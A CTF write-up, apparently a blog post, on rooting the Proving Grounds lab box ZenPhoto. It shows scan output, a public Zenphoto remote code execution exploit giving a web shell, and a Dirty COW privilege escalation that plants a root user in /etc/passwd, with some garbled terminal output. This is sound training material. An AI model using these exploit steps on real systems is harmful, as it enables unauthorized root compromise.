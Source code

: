 ```yaml
---
title: "Proving grounds Practice: ZenPhoto"
layout: post
date: 2024-04-28 02:00
categories: writeup
---
```


Proving grounds Practice - ZenPhoto CTF writeup.

# NMAP

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
23/tcp   open  ipp     CUPS 1.4
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
3306/tcp open  mysql   MySQL (unauthorized)
```

## 80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))

http://192.168.209.41/test/

```sh
[21:42:10] Starting: 
[21:42:12] 200 -   75B  - /index
[21:42:22] 301 -  315B  - /test  ->  http://192.168.209.41/test/
```

Upon reviewing the page source it was found that the website is using zenphoto version 1.4.1.4 [8157] (Official Build). The version is vulnerable to [Remote Code Execution Vulnerability](https://www.exploit-db.com/exploits/18083).

```sh
naveenj@hackerspace:[21:58]~/proving_grounds/ZenPhoto/exploit$ php exploit 192.168.209.41 /test/

+-----------------------------------------------------------+
| Zenphoto <= 1.4.1.4 Remote Code Execution Exploit by EgiX |
+-----------------------------------------------------------+

zenphoto-shell# 
```

## Privilege Escalation
   
Vulnerable to [CVE-2016-5195] dirtycow 2 exploit.

```text
Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
Exposure: highly probable
Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,[ ubuntu=10.04{kernel:2.6.32-21-generic} ],ubuntu=16.04{kernel:4.4.0-21-generic}
Download URL: https://www.exploit-db.com/download/40839
ext-url: https://www.exploit-db.com/download/40847
Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

### Exploitation

Find the exploit [here](https://www.exploit-db.com/exploits/40839).

```sh
ww-data@offsecsrv:/tmp$ ls
dirty.c  lp.sh	vmware-root
www-data@offsecsrv:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
www-data@offsecsrv:/tmp$ ls
dirty  dirty.c	lp.sh  vmware-root
www-data@offsecsrv:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: b7860000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@offsecsrv:/tmp$ cat /emadvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
tc
```

Check /etc/passwd file for the root user presence.

```sh
www-data@offsecsrv:/tmp$ cat /etc/passwd
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash	#user created
/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
```

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).